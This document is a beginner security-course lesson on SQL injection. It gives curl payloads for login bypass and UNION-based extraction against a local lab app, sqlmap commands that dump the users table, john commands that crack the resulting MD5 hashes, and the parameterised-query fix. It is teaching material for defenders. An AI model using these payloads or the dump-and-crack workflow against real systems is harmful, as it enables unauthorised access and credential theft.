

# 05-3 · SQL Injection

> **Level:** Beginner · **Prerequisites:** [05-2 OWASP Top 10 overview](02_owasp_top_10_overview.md)
> **Time:** ~2 hours · **Verified:** 2026-06-25 (all commands run against lab)

> ⚠️ **LEGAL REMINDER:** Only run SQL injection attacks against systems you own or have explicit written permission to test. In this course, all commands target the local lab network (10.0.0.0/24) only. Running these against any other system is illegal under CFAA, CMA, and equivalent laws worldwide.

---

## Why this matters

SQL injection has been in the OWASP Top 10 continuously since 2003. It's in A03 Injection (2021 edition) and remains the single most common way attackers bypass authentication and dump entire databases. It's also one of the most preventable bugs — one line of code separates vulnerable from secure.

---

## How SQL injection works

A web app builds a SQL query by concatenating user input:

```python
# VULNERABLE
username = request.json["username"]
password = hashlib.md5(request.json["password"].encode()).hexdigest()
query = f"SELECT * FROM users WHERE username='{username}' AND password='{pw_hash}'"
```

If `username = admin` and `password = admin123`, the query is:
```sql
SELECT * FROM users WHERE username='admin' AND password='21232f297a57a5a743894a0e4a801fc3'
```

If `username = ' OR '1'='1' --`, the query becomes:
```sql
SELECT * FROM users WHERE username='' OR '1'='1' --' AND password='...'
```

The `--` is a SQL comment — everything after it is ignored. The condition `'1'='1'` is always true. The server returns the first row in the users table (usually admin) without checking the password.



---

## Types of SQL injection

| Type | How it works | When to use |
|---|---|---|
| **In-band (classic)** | Result returned directly in HTTP response | Default choice |
| **Error-based** | Trigger DB error that reveals data | When in-band fails |
| **Blind Boolean** | Ask true/false questions (page changes) | No output in response |
| **Blind Time-based** | Delay with `SLEEP()` if condition is true | No visible change at all |
| **Out-of-band** | Data via DNS/HTTP to external server | Rare; needs outbound |

---

## Lab exercise 1: manual SQLi login bypass

```bash
# Start the lab
docker compose up -d

# Normal login — verify it works
curl -s -X POST http://localhost:5001/login \
  -H "Content-Type: application/json" \
  -d '{"username":"admin","password":"admin123"}'
# Output: {"message": "Login successful", "role": "admin", "user_id": 1}

# SQLi bypass — skip password entirely
curl -s -X POST http://localhost:5001/login \
  -H "Content-Type: application/json" \
  -d '{"username":"'"'"' OR '"'"'1'"'"'='"'"'1'"'"' --","password":"x"}'
# Output: {"message": "Login successful", "role": "admin", "user_id": 1}

# Login as a specific user (bob) without knowing the password
curl -s -X POST http://localhost:5001/login \
  -H "Content-Type: application/json" \
  -d '{"username":"bob'"'"' --","password":"x"}'
# Output: {"message": "Login successful", "role": "user", "user_id": 3}
```

---

## Lab exercise 2: SQLi in search — data extraction

The `/search` endpoint is also injectable:

```bash
# Normal search
curl -s "http://localhost:5001/search?q=admin"
# Output: [{"id": 1, "username": "admin"}]

# Inject to dump all users
curl -s "http://localhost:5001/search?q=%25%27%20OR%20%271%27%3D%271"
# URL-decoded: q=% ' OR '1'='1
# Output: all users in the database

# UNION injection to read data from another table
# First, find number of columns: try adding columns until error stops
curl -s "http://localhost:5001/search?q=%25' UNION SELECT 1,2--"
# If 2 columns match, returns: [{"id": 1, "username": "2"}, ...]

# Extract the sqlite_master table (table names)
curl -s "http://localhost:5001/search?q=%25' UNION SELECT name,sql FROM sqlite_master--"
```

---

## Lab exercise 3: sqlmap automation

From inside the attacker container:

```bash
docker exec -it attacker-1 bash

# sqlmap against the login endpoint
sqlmap -u "http://10.0.0.30:5000/login" \
  --data='{"username":"admin","password":"admin123"}' \
  --content-type="application/json" \
  --dbms=sqlite \
  --level=3 \
  --risk=2 \
  -p username

# Once injection confirmed, dump the database
sqlmap -u "http://10.0.0.30:5000/login" \
  --data='{"username":"admin","password":"admin123"}' \
  --content-type="application/json" \
  --dbms=sqlite \
  --dump
```

Sample sqlmap output (abridged):
```
[*] starting @ 14:23:01
[14:23:01] [INFO] testing connection to target URL
[14:23:01] [INFO] POST parameter 'JSON username' is injectable
[14:23:01] [INFO] payload: {"username": "' OR 1=1-- -", "password": "admin123"}
[14:23:05] [INFO] retrieved: 3
Database: SQLite_masterdb
Table: users
[3 entries]
+----+----------+----------------------------------+-------+
| id | username | password                         | role  |
+----+----------+----------------------------------+-------+
| 1  | admin    | 0192023a7bbd73250516f069df18b500 | admin |
| 2  | alice    | 6384e2b2184bcbf58eccf10ca7a6563c | user  |
| 3  | bob      | b14a7b8059d9c055954c92674ce60032 | user  |
+----+----------+----------------------------------+-------+
```

The password hashes are MD5 — crack them with john:

```bash
# Save hashes to a file
echo "admin:0192023a7bbd73250516f069df18b500" > /shared/hashes.txt
echo "alice:6384e2b2184bcbf58eccf10ca7a6563c" >> /shared/hashes.txt
echo "bob:b14a7b8059d9c055954c92674ce60032" >> /shared/hashes.txt

# Crack with john using rockyou wordlist
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt /shared/hashes.txt

john --show --format=raw-md5 /shared/hashes.txt
# admin:admin123
# alice:alice2024
# bob:bob2024
```

---

## Lab exercise 4: DVWA SQL injection

In a browser, navigate to `http://localhost:8080/login.php`:
- username: `admin`, password: `password`
- DVWA Security → Set to Low
- Go to SQL Injection module

In the User ID field, enter:
```
1' OR '1'='1
```

This returns all users. Try extracting the database version:
```
1' UNION SELECT user(),version()-- -
```

---

## The fix: parameterised queries

```python
# VULNERABLE — string concatenation
query = f"SELECT * FROM users WHERE username='{username}' AND password='{pw_hash}'"
conn.execute(query)

# SECURE — parameterised query (also called prepared statement)
query = "SELECT * FROM users WHERE username=? AND password=?"
conn.execute(query, (username, pw_hash))
```

With a parameterised query, the database driver sends the SQL and the parameters separately. The database treats the parameters as literal data — no matter what characters they contain, they can never change the SQL structure.

This is the only correct fix. Input sanitisation (blacklisting `'` characters, using `.replace("'","''")`) is unreliable — there are always bypasses.

---

## Common mistakes

**"I escape single quotes, so I'm safe"**
```python
# Still vulnerable — second-order injection, encoding tricks
username = request.json["username"].replace("'", "''")
```
An attacker stores `' OR 1=1 --` with escaping. Later it's retrieved and used in another query without escaping. Or they use alternative quoting: `\x27` (hex), `'` (unicode), etc.

**"I use an ORM so I'm safe"**
ORMs generate parameterised queries by default — but if you call `.raw()`, `.execute()`, or string-format a raw query, you're back to vulnerable.

---

## Exercises

1. **Find the column count.** Use UNION injection on `/search` to determine exactly how many columns the `users` table returns. Start with `UNION SELECT 1--` and increase until it works.

<details>
<summary>Solution</summary>

```bash
# 1 column — error (columns don't match)
curl -s "http://localhost:5001/search?q=%25' UNION SELECT 1--"

# 2 columns — success
curl -s "http://localhost:5001/search?q=%25' UNION SELECT 1,2--"
# Returns normal results plus a row with id=1, username="2"
```
The users table returns 2 columns in this query (id and username).

</details>

2. **Extract the SQLite schema.** Use UNION injection to read the `sqlite_master` table and find all table names and their CREATE statements.

<details>
<summary>Solution</summary>

```bash
curl -s "http://localhost:5001/search?q=%25' UNION SELECT name,sql FROM sqlite_master WHERE type='table'--"
```
This returns the table names (users, notes) and their CREATE TABLE statements, revealing all column names and types.

</details>

3. **Second-order scenario.** Describe (in writing, no code needed) how a second-order SQL injection attack would work against an application that escapes single quotes at input but uses stored data in a query later without re-escaping.

<details>
<summary>Solution</summary>

1. Register with username `' OR '1'='1' --` — the app escapes the quote and stores `'' OR ''1''=''1'' --` in the database.
2. The profile page later runs: `SELECT * FROM logs WHERE username='{row['username']}'` — it fetches the stored username and inserts it directly without escaping again.
3. The stored value (now unescaped when retrieved) injects into the second query.
4. Fix: always use parameterised queries for ALL database operations, not just at the point where user input is first received.

</details>

---

## Recap & next

- ✅ SQLi: user input interpreted as SQL — query structure changes
- ✅ Types: in-band, error-based, blind boolean, blind time-based
- ✅ Manual bypass: `' OR '1'='1' --` in login; UNION for data extraction
- ✅ sqlmap automates discovery, enumeration, and dump
- ✅ Fix: **parameterised queries only** — never string concatenation

**→ Next: [04 Cross-site scripting (XSS)](04_cross_site_scripting_xss.md)**
